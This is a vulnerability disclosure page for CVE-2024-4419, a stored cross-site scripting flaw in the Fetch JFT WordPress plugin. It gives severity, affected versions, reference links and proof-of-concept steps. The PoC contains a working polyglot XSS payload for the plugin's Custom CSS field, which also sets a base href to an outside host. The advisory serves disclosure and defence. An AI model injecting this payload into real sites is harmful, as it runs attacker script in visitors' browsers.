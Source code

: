 ```yaml
---
layout: page
title: CVE-2024-4419
subtitle: Fetch JFT <= 1.8.3 - Authenticated (Administrator+) Stored Cross-Site Scripting
---
```

## Description
The Fetch JFT plugin for WordPress is vulnerable to Stored Cross-Site Scripting via admin settings in all versions up to, and including, 1.8.3 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with administrator-level permissions and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page. This only affects multi-site installations and installations where unfiltered_html has been disabled.

## Severity
 4.4 (Medium) - [CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N)

## Affected Version
    <= 1.8.3

## PoC :
```
- Go To Fetch JFT Plugin Settings
- Put this payload on field Custom CSS
```
JavaScript://%0A/*?'/*\\'/*"/*\\"/*`/*\\`/*&apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(confirm)(1+2+3+4+5+6+7+8+9+10+11+12+13+14+15+16+17+18+19+20+45+500+1000-400-20+2)}//><Base/Href=//ener1-s3c.github.io\\76-->
```
- Save Change
```

## Refrence
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3089669%40fetch-jft%2Ftrunk&old=3025839%40fetch-jft%2Ftrunk&sfp_email=&sfph_mail=
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/fetch-jft/fetch-jft-183-authenticated-administrator-stored-cross-site-scripting
- https://www.cve.org/CVERecord?id=CVE-2024-4419





